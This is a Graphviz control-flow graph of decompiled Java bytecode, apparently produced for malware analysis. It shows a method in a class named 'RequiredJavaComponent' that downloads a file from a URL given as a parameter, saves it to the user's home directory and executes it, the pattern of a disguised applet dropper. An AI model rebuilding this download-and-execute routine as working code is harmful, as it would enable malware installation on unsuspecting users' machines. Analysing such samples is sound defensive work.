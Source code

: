 digraph "" {
    "r0 := @this: RequiredJavaComponent"
    "load.r r0"
    "r0 := @this: RequiredJavaComponent"->"load.r r0";
    "push \"FileName\""
    "load.r r0"->"push \"FileName\"";
    "virtualinvoke <RequiredJavaComponent: java.lang.String getParameter(java.lang.String)>"
    "push \"FileName\""->"virtualinvoke <RequiredJavaComponent: java.lang.String getParameter(java.lang.String)>";
    "store.r r19"
    "virtualinvoke <RequiredJavaComponent: java.lang.String getParameter(java.lang.String)>"->"store.r r19";
    "push \"user.home\""
    "store.r r19"->"push \"user.home\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"user.home\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "store.r r1"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"store.r r1";
    "new java.net.URL"
    "store.r r1"->"new java.net.URL";
    "dup1.r"
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"URL\""
    "load.r r0"->"push \"URL\"";
    "push \"URL\""->"virtualinvoke <RequiredJavaComponent: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "virtualinvoke <RequiredJavaComponent: java.lang.String getParameter(java.lang.String)>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>";
    "store.r r4"
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"store.r r4";
    "new java.io.FileOutputStream"
    "store.r r4"->"new java.io.FileOutputStream";
    "store.r $r9"
    "new java.io.FileOutputStream"->"store.r $r9";
    "load.r $r9"
    "store.r $r9"->"load.r $r9";
    "new java.lang.StringBuilder"
    "load.r $r9"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r r1"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r1";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r19"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r19";
    "load.r r19"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "push 512"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"push 512";
    "newarray"
    "push 512"->"newarray";
    "store.r r6"
    "newarray"->"store.r r6";
    "load.r r4"
    "store.r r6"->"load.r r4";
    "load.r r6"
    "load.r r4"->"load.r r6";
    "push 0"
    "load.r r6"->"push 0";
    "push 0"->"load.r r6";
    "arraylength"
    "load.r r6"->"arraylength";
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"
    "arraylength"->"virtualinvoke <java.io.InputStream: int read(byte[],int,int)>";
    "store.i $i2"
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"->"store.i $i2";
    "load.i $i2"
    "store.i $i2"->"load.i $i2";
    "push -1"
    "load.i $i2"->"push -1";
    "ifcmpeq.i load.r r4"
    "push -1"->"ifcmpeq.i load.r r4";
    "ifcmpeq.i load.r r4"->"load.r $r9";
    "load.r $r9"->"load.r r6";
    "load.r r6"->"push 0";
    "push 0"->"load.i $i2";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i $i2"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "goto load.r r4"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"goto load.r r4";
    "store.r r0"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "ifcmpeq.i load.r r4"->"load.r r4";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r4"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r $r9";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r9"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"load.r r0";
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r19";
    "load.r r19"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <RequiredJavaComponent: void Execute(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <RequiredJavaComponent: void Execute(java.lang.String)>";
    "goto return"
    "virtualinvoke <RequiredJavaComponent: void Execute(java.lang.String)>"->"goto return";
    "goto return"->"return";
}
